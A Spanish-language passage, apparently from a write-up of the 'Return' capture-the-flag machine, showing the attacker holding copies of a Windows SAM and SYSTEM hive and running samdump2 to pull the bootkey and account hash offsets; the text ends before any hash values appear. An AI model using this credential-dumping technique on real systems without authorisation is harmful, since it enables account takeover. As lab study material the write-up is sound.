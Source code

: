 ```csharp
[*] Closing down connection (10.10.11.108,49423)
[*] Remaining connections []
```

Ya tenemos estos archivos en nuestra máquina

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #ll sam system 
Permissions Size User        Date Modified Name
.rwxrwxrwx   49k angussmoody 19 may 23:54  sam
.rwxrwxrwx   16M angussmoody 19 may 23:54  system
```

ahora vamos a dumpearlo con la herramienta samdump2 

```csharp
┌─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #samdump2 -h
samdump2 3.0.0 by Objectif Securite (http://www.objectif-securite.ch)
original author: ncuomo@studenti.unina.it

Usage: samdump2 [OPTION]... SYSTEM_FILE SAM_FILE
Retrieves syskey and extract hashes from Windows 2k/NT/XP/Vista SAM

  -d		enable debugging
  -h		display this information
  -o file	write output to file
```

y esta nos entrega los hash de los usuarios

```csharp
┌─[✗]─[root@angussmoody]─[/mnt/angussMoody/Machines/Return]
└──╼ #samdump2 -d system sam 
Root Key : ROOT
Default ControlSet: 001
********* ROOT\ControlSet001\Control\Lsa\JD *********
n->classname_len = 16 b = ed616c
********* ROOT\ControlSet001\Control\Lsa\Skew1 *********
n->classname_len = 16 b = ed66cc
********* ROOT\ControlSet001\Control\Lsa\GBG *********
n->classname_len = 16 b = ed5fdc
********* ROOT\ControlSet001\Control\Lsa\Data *********
n->classname_len = 16 b = ed5e34
Bootkey unsorted: cdf62c6714d022899a69dba4c34e35c8
Root Key : ROOT
******************** 1 ********************
keyname = ROOT\SAM\Domains\Account\Users\000001F4
disabled = 0

username len=13, off=1c0
lm_hashoffset = 250, lm_size = 18
nt_hashoffset = 268, nt_size = 38
******************** 2 ********************
keyname = ROOT\SAM\Domains\Account\Users\000001F5
disabled = 1

username len=5, off=1b4
lm_hashoffset = 238, lm_size = 18
nt_hashoffset = 250, nt_size = 18
******************** 3 ********************
keyname = ROOT\SAM\Domains\Account\Users\000001F7
disabled = 1

username len=14, off=d8
lm_hashoffset = 248, lm_size = 18
```